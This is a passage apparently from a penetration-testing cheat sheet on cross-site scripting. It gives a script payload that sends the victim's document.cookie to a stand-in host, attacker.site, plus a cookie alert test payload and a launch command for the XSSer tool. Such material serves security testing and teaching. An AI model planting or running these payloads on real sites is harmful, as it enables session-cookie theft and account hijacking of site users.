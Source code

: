 ```
<script>
var i = new Image();
i.src="http://attacker.site/get.php?cookie="+escape(document.cookie);
</script>
```

![](<../../.gitbook/assets/image (13).png>)

PHP script to Store cookie once received:

![](<../../.gitbook/assets/image (14).png>)

Accessing a cookie with JS:

```
<script>alert(document.cookie)</script>
```

### XSSer:

Cross Site "Scripter" (aka XSSer) is an automatic -framework- to **detect, exploit and report XSS vulnerabilities** in web-based applications.

* Lunch the GUI:

```
xsser --gtk
```
